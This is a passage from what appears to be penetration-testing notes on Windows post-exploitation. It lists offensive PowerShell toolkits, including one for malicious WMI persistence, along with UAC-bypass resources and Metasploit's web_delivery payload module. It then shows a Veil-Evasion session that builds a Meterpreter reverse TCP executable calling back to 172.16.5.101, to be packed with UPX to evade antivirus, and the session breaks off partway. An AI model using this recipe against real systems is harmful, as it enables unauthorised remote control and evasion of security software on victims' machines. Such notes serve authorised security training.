 		   [*] Exploit running as background job.
		   ```
	- [**PowerSploit**](https://github.com/PowerShellMafia/PowerSploit)**:** A lot of Poweshell modules (Including PowerUp and PowerView) that you can import with the Powershell module to perform a lot of things in a Windows host
	- [**Nishang**](https://github.com/samratashok/nishang)**:** Nishang is a framework and collection of scripts and payloads
	- [**PowerLurk**](https://github.com/Sw4mpf0x/PowerLurk)**:** Toolset for building malicious WMI Event Subsriptions (For persistence)
	- [**Posh-SecMod**](https://github.com/darkoperator/Posh-SecMod)**:** Another Powershell modules bundle that can be interesting (Powershell v3 only)
	- [**Psgetsystem**](https://github.com/decoder-it/psgetsystem)**:** Powershell script to get SYSTEM using the parent process technique
	- If you are not able to use the `getsystem` Meterpreter command to escalate maybe you need to bypass UAC. You can search for possible bypasses in Metasploit using the `post/multi/recon/local_exploit_suggester` module or use [UACME](https://github.com/hfiref0x/UACME)
	- With the `exploit/multi/script/web_delivery` module a web server is setup with a payload that will be executed when the Metasploit provided command is executed in the victim machine
	- If an AV is in place, [Veil](https://github.com/Veil-Framework/Veil) alongside the [UPX](https://upx.github.io/) packer can be used to bypass it. First open Veil and generate a Meterpreter executable:
      ```bash
      ...
      Veil>: use 1
      ...
	  Veil/Evasion>: use python/meterpreter/rev_tcp.py
	  [python/meterpreter/rev_tcp>>]: set LHOST 172.16.5.101
	  [python/meterpreter/rev_tcp>>]: generate
	  ===============================================================================
	                                     Veil-Evasion
	  ===============================================================================
	        [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
	  ===============================================================================
  
  	   [>] Please enter the base name for output files (default is payload): hello
  	  ===============================================================================
	                                     Veil-Evasion
	  ===============================================================================
	        [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
	  ===============================================================================

	   [?] How would you like to create your payload executable?

	       1 - PyInstaller (default)
	       2 - Py2Exe

	   [>] Please enter the number of your choice: 1
	  ...
	  ===============================================================================
	                                   Veil-Evasion
	  ===============================================================================
	        [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
	  ===============================================================================
